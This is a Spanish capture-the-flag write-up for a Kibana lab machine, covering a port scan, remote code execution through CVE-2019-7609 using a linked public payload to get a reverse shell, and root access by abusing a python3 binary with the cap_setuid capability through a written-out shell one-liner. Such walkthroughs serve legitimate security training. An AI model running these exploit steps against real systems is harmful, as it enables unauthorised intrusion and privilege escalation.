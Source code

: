 

# SCAN
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent
```

# PORT 5061 (KIBANA)

Kibana es un plugin que permite monitorizar del forma grafica los logs y tiene una vulnerabilidad CVE-2019-7609 que consiste en la
posibilidad de ejecutar codigo remoto (RCE) basado en una vulnerabilidad llamada **Prototype Pollution** que consiste basicamente en
modificar el objeto en aquellos lenguajes de programacion (como javascript) basados en prototipos.
Existe un payload para explotar esta vulnerabilidad en: 
> https://github.com/LandGrey/CVE-2019-7609.git

Con este payload obtenemos un reverse shell que nos permite obtener de forma inmediata el user.txt

# PRIVILEGE ESCALATION
La pagina del servidor http nos da una idea del vector que tenemos que utilizar para la escalada de privilegios:

<html>
<head></head>
<body>
	<pre>
		     ,+++77777++=:,                    +=                      ,,++=7++=,,
		    7~?7   +7I77 :,I777  I          77 7+77 7:        ,?777777??~,=+=~I7?,=77 I
		=7I7I~7  ,77: ++:~+777777 7     +77=7 =7I7     ,I777= 77,:~7 +?7, ~7   ~ 777?
		77+7I 777~,,=7~  ,::7=7: 7 77   77: 7 7 +77,7 I777~+777I=   =:,77,77  77 7,777,
		  = 7  ?7 , 7~,~  + 77 ?: :?777 +~77 77? I7777I7I7 777+77   =:, ?7   +7 777?
		      77 ~I == ~77=77777~: I,+77?  7  7:?7? ?7 7 7 77 ~I   7I,,?7 I77~
		       I 7=77~+77+?=:I+~77?     , I 7? 77 7   777~ +7 I+?7  +7~?777,77I
		         =77 77= +7 7777         ,7 7?7:,??7     +7    7   77??+ 7777,
		             =I, I 7+:77?         +7I7?7777 :             :7 7
		                7I7I?77 ~         +7:77,     ~         +7,::7   7
		               ,7~77?7? ?:         7+:77           77 :7777=
		                ?77 +I7+,7         7~  7,+7  ,?       ?7?~?777:
		                   I777=7777 ~     77 :  77 =7+,    I77  777
		                     +      ~?     , + 7    ,, ~I,  = ? ,
		                                    77:I+
		                                    ,7
		                                     :777
		                                        :
				Welcome, "linux capabilities" is very interesting.
	</pre>
</body>
<html>

Para ver las capabilitis de cada fichero al que tenemos permiso de acceso hacemos:
> $ getcap -r / 2>/dev/null
Hay una capability que nos permite ejecutar python3 con suid de root en /home/kiba/.hackmeplease/python3
```
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```
explotando esta capability obtenemos un root shell

> kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'      
 
y de forma inmediata la root.txt



